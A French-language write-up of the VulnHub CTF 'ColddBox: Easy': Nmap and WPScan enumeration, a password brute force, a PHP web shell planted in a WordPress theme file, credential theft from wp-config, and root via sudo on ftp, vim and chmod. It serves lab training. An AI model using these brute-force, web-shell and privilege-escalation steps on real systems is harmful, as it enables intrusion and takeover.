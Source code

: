 ```yaml
---
title: "Solution du CTF ColddBox: Easy de VulnHub"
tags: [CTF, VulnHub]
---
```


[ColddBox: Easy](https://vulnhub.com/entry/colddbox-easy,586/) est comme son nom l'indique un CTF très facile. Il peut toutefois permettre aux débutants de s'initier à différents outils.

Le scan `Nmap` retourne un SSH et un serveur Apache :

```
Nmap scan report for 192.168.56.109
Host is up (0.00017s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: ColddBox | One more machine
|_http-generator: WordPress 4.1.31
|_http-server-header: Apache/2.4.18 (Ubuntu)
4512/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4ebf98c09bc536808c96e8969565973b (RSA)
|   256 8817f1a844f7f8062fd34f733298c7c5 (ECDSA)
|_  256 f2fc6c750820b1b2512d94d694d7514f (ED25519)
```

Sur le site se trouve un vieux Wordpress. J'ai directement dégainé `WPscan` :

```bash
docker run -it --rm wpscanteam/wpscan --url http://192.168.56.109/  -e ap,at,u
```

Le scanner ne trouve aucun plugin mais il y a différents utilisateurs enregistrés :

```
[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <====================================================================================================================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] the cold in person
 | Found By: Rss Generator (Passive Detection)

[+] philip
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] c0ldd
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] hugo
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

On va bruteforcer les comptes avec l'aide de la wordlist `rockyou`. Je monte mon dossier `/tmp` à l'emplacement `/data` de la VM pour que `WPscan` voit les fichiers :

```bash
docker run -v /tmp/:/data/ -it --rm wpscanteam/wpscan --url http://192.168.56.109/ -U /data/users.txt -P /data/rockyou.txt
```

Ca ne met pas beaucoup de temps avant qu'un compte soit cassé :

```
[SUCCESS] - c0ldd / 9876543210
```

Heureusement le compte est administrateur, on peut donc arrêter le bruteforce ici et se connecter.

La méthode classique est alors d'utiliser l'éditeur de thèmes pour ajouter du code dans un des fichiers PHP du site. J'ai une préférence pour le fichier `404.php` du template. J'y place le code suivant :

```php
if (isset($_GET["cmd"])) { system($_GET["cmd"]); }
die(); 
```

Evidemment on évitera de mettre un `die()` dans un scénario plus réaliste.

Je peux alors exécuter des commandes via par exemple `/wp-content/themes/twentyfifteen/404.php?cmd=id`

Mais je ne garde le webshell que le temps de passer à reverse-ssh. Après ça je peux fouiller plus à mon aise. Première étape : voir les identifiants pour le MySQL dans le config du Wordpress :

```php
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'colddbox');

/** MySQL database username */
define('DB_USER', 'c0ldd');

/** MySQL database password */
define('DB_PASSWORD', 'cybersecurity');

/** MySQL hostname */
define('DB_HOST', 'localhost');
```

Pas besoin d'aller plus loin, le mot de passe mentionner permet de passer `c0ldd` via la commande `su`.

```bash
c0ldd@ColddBox-Easy:~$ cat user.txt 
RmVsaWNpZGFkZXMsIHByaW1lciBuaXZlbCBjb25zZWd1aWRvIQ==
```

Il ne faut pas longtemps avant de trouver l'étape suivante :

```bash
c0ldd@ColddBox-Easy:~$ sudo -l
[sudo] password for c0ldd: 
Coincidiendo entradas por defecto para c0ldd en ColddBox-Easy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

El usuario c0ldd puede ejecutar los siguientes comandos en ColddBox-Easy:
    (root) /usr/bin/vim
    (root) /bin/chmod
    (root) /usr/bin/ftp
```

Tous ces exécutables permettent d'obtenir un shell s'ils sont lancés avec les droits root.

Exemple avec `ftp` :

```bash
c0ldd@ColddBox-Easy:~$ sudo /usr/bin/ftp
ftp> !id
uid=0(root) gid=0(root) grupos=0(root)
ftp> !bash
root@ColddBox-Easy:~# cd /root
root@ColddBox-Easy:/root# ls
root.txt
root@ColddBox-Easy:/root# cat root.txt 
wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE=
```

Pour `Vim` on peut bien sûr éditer des fichiers (`/etc/passwd`, `/etc/crontab`, `/etc/sudoers,` etc) pour ajouter un utilisateur privilégié, s'accorder d'autres permissions, etc mais le plus simple est d'invoquer directement un shell depuis l'éditeur :

`:!/bin/sh`

Et pour `chmod` on peut simplement mettre le bit setuid sur `/bin/dash` :

```bash
c0ldd@ColddBox-Easy:~$ sudo /bin/chmod 4755 /bin/dash
c0ldd@ColddBox-Easy:~$ dash -p
# id
uid=1000(c0ldd) gid=1000(c0ldd) euid=0(root) grupos=1000(c0ldd),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

*Publié le 18 février 2023*
